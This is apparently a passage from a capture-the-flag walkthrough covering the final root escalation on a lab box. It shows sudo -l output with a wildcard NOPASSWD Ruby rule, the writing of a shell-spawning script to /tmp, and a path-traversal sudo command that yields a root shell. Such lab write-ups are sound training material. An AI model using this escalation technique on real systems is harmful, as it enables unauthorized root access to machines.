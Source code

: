 ### Step 6: Final Privilege Escalation - Carlos to Root

As user `carlos`, the first thing we should always check is `sudo -l`.

```bash
carlos@airplane:~$ sudo -l
Matching Defaults entries for carlos on airplane:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carlos may run the following commands on airplane:
    (ALL) NOPASSWD: /usr/bin/ruby /root/*.rb
```

This is a gift from the heavens! We can run any Ruby script (`*.rb`) located in the `/root/` directory as root, without a password. The vulnerability here is the combination of the wildcard (`*`) and our ability to control the path. We can't write to `/root/`, but we can use path traversal!

Let's create our own malicious Ruby script in a world-writable directory like `/tmp`.

```bash
# Create a ruby script that spawns a shell
carlos@airplane:~$ echo 'exec "/bin/sh"' > /tmp/shell.rb
```

Now, we'll use `sudo` to run the Ruby interpreter on our script by tricking it with path traversal.

```bash
# Use path traversal to make ruby execute our script from /tmp
carlos@airplane:~$ sudo /usr/bin/ruby /root/../tmp/shell.rb
# We have a root shell!
whoami
root
ls /root
root.txt  snap
cat /root/root.txt
********************************
```

And there we have it! We've successfully piloted our way from a simple web page to a full root shell. Thanks for flying with me on this walkthrough!
